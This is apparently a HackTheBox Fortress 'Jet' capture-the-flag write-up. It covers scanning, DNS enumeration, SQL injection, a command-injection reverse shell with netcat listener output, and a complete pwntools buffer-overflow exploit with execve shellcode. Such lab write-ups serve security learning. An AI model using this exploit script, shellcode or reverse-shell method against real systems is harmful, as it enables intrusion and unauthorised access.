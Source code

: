 # HackTheBox Fortress Jet Writeup
## Nmap
```bash
Nmap scan report for 10.13.37.10
Host is up, received user-set (0.18s latency).
Scanned at 2024-02-07 12:27:48 +08 for 1513s
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:f6:49:80:81:cf:f0:07:0e:5a:ad:e9:8e:1f:2b:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzfo72P9KbpK9EZIE/AdtfSawGO5rjNM4GOu1Te5M2Z576c7aEVWv+284kw4OQ6JxQtFL56QsVaxRwxY9jGdpluJw5AWQpASy/Rx8q2JT7yGv0yGI8+tAIjLOMNmq5Qt6IjbDiSbL+gp6a+AsA0Mvm9OUYxBDM+LRsKFjwLDJCzFVKMFGc+gNrYJwpRa9RADsXN/19ogVYG8v9GvqFAJygMyTqVM0fbX3dDcAlMWgcHu81wMmQQGznjLe2gTY/sFAhASAfieVnSYIF11amofP8eUd+6jWL1wSlhRcW+j15tsPcotcfdpCrUJMFXq2tumXfNLJUWhv75Rf8pUeVobsx
|   256 54:e2:7e:5a:1c:aa:9a:ab:65:ca:fa:39:28:bc:0a:43 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLz7MT1sqbOHsYtNwWDfYJW8uCAPUL+zMJrW2DvIM7a9jG2RI40LNKjtiYv+M6DXjTWr3DK21kIWWK4TKMEl5Wo=
|   256 93:bc:37:b7:e0:08:ce:2d:03:99:01:0a:a9:df:da:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEEtJp2PzxXAhVXs6nNbgJXgRbLCiB/hcGJY5IgBKfS4
53/tcp    open  domain   syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp    open  http     syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx on Debian!
5555/tcp  open  freeciv? syn-ack ttl 63
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, adbConnect: 
|     enter your name:
|     [31mMember manager!
|     edit
|     change name
|     gift
|     exit
7777/tcp  open  cbt?     syn-ack ttl 63
9201/tcp  open  http     syn-ack ttl 63 BaseHTTPServer 0.3 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET
|_http-title: Site doesn't have a title (application/json).
60006/tcp open  unknown  syn-ack ttl 63
```

## Flag 1 Connect
http://10.13.37.10<br>
![Flag 1](https://raw.githubusercontent.com/ngohuiann/CTF-Write-Ups/main/image/Fortress%20Jet%20F1.png)

## Flag 2 Digging In
```bash
dig @10.13.37.10 -x 10.13.37.10 

; <<>> DiG 9.19.19-1-Debian <<>> @10.13.37.10 -x 10.13.37.10
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 52896
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;10.37.13.10.in-addr.arpa.	IN	PTR

;; AUTHORITY SECTION:
37.13.10.in-addr.arpa.	604800	IN	SOA	www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800

;; Query time: 347 msec
;; SERVER: 10.13.37.10#53(10.13.37.10) (UDP)
;; WHEN: Wed Feb 07 12:31:06 +08 2024
;; MSG SIZE  rcvd: 109
```
After adding www.securewebinc.jet to /etc/hosts visit www.secureweb.inc.jet
![Flag 2](https://raw.githubusercontent.com/ngohuiann/CTF-Write-Ups/main/image/Fortress%20Jet%20F2.png)

## Flag 3 Going Deeper
In Burp we can see the web application is constantly calling to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/stats.php
Visiting http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/ lead us to a login page.


## Flag 4 Bypass Authentication
Error message when attempting to sign in with admin:admin shows that admin user exists. Username parameter is vulnerable to SQL injection. Get the user's password hash with SQLmap and crach it with hashcat. 
![Flag 4](https://raw.githubusercontent.com/ngohuiann/CTF-Write-Ups/main/image/Fortress%20Jet%20F4.png)

## Flag 5 Command
Trigger a post request to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/email.php through the admin dashboard "Quick email" form. Start a netcat listener and receive a reverse shell through command injection.
![Flag 5](https://raw.githubusercontent.com/ngohuiann/CTF-Write-Ups/main/image/Fortress%20Jet%20F5.png)
```bash
rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.13.37.10] 54576
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ ls -la
ls -la
total 120
drwxr-x---  8 root www-data  4096 Jan  3  2018 .
drwxr-x---  3 root www-data  4096 Dec 20  2017 ..
-rw-r--r--  1 root root        33 Dec 20  2017 a_flag_is_here.txt
-rwxr-x---  1 root www-data   157 Jan  3  2018 auth.php
-rwxr-x---  1 root www-data    39 Dec 20  2017 badwords.txt
drwxr-x--- 32 root www-data  4096 Dec 20  2017 bower_components
drwxr-x---  6 root www-data  4096 Oct  9  2017 build
-rwxr-x---  1 root www-data    82 Dec 20  2017 conf.php
-rwxr-x---  1 root www-data 44067 Dec 27  2017 dashboard.php
-rwxr-x---  1 root www-data   600 Dec 20  2017 db.php
drwxr-x---  5 root www-data  4096 Oct  9  2017 dist
-rwxr-x---  1 root www-data   820 Dec 27  2017 dologin.php
-rwxr-x---  1 root www-data  2881 Dec 27  2017 email.php
-rwxr-x---  1 root www-data    43 Dec 20  2017 index.php
drwxr-x---  2 root www-data  4096 Dec 20  2017 js
-rwxr-x---  1 root www-data  3606 Dec 20  2017 login.php
-rwxr-x---  1 root www-data    98 Dec 20  2017 logout.php
drwxr-x--- 10 root www-data  4096 Dec 20  2017 plugins
-rwxr-x---  1 root www-data    21 Nov 14  2017 stats.php
drwxrwxrwx  2 root www-data  4096 Dec 20  2017 uploads
```

## Flag 6 Overflown
```python
import os

os.environ['PWNLIB_NOTERM'] = '1'

from pwn import *

p = remote('10.13.37.10', 60006)
# receive until we see this text
p.recvuntil("Oops, I'm leaking! ")
# store leaked libc base address
leak=int(p.recvuntil("\n"),16)
log.info('Libc address: {}'.format(hex(leak)))
p.recvuntil("> ")
leak2= p64(int(leak))
# execve x64 shellcode 30 bytes - https://www.exploit-db.com/exploits/37362/
payload = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload += "A"*(72-len(payload))
payload += str(leak2)
p.sendline (payload)

p.interactive()
```
```bash
www-data@jet:/tmp$ python bof.py
python bof.py
[x] Opening connection to 10.13.37.10 on port 60006
[x] Opening connection to 10.13.37.10 on port 60006: Trying 10.13.37.10
[+] Opening connection to 10.13.37.10 on port 60006: Done
[*] Libc address: 0x7fff808f2a90
[*] Switching to interactive mode
id
id
uid=33(www-data) gid=33(www-data) euid=1005(alex) groups=33(www-data)

ls -la /home/alex
total 916
drwxrwx--- 6 alex alex       4096 Feb  5 06:52 .
drwxr-xr-x 8 root root       4096 Apr  1  2018 ..
-rw-r--r-- 1 root root          0 Dec 28  2017 .bash_history
-rwxrwx--- 1 alex alex        220 Dec 27  2017 .bash_logout
-rwxrwx--- 1 alex alex       3771 Dec 27  2017 .bashrc
drwx------ 2 alex alex       4096 Feb  5 06:15 .cache
drwxr-x--- 3 alex alex       4096 Feb  5 06:46 .config
drwx------ 2 alex alex       4096 Feb  5 06:47 .gnupg
-rwxrwx--- 1 alex alex        655 Dec 27  2017 .profile
drwx------ 2 alex www-data   4096 Feb  5 06:13 .ssh
-rw-r--r-- 1 root root        659 Jan  3  2018 crypter.py
-rw-r--r-- 1 root root       1481 Dec 28  2017 encrypted.txt
-rw-r--r-- 1 root root       7285 Dec 27  2017 exploitme.zip
-rw-r--r-- 1 root root         27 Dec 28  2017 flag.txt
-rw-r--r-- 1 alex www-data      0 Feb  5 06:13 kik
```

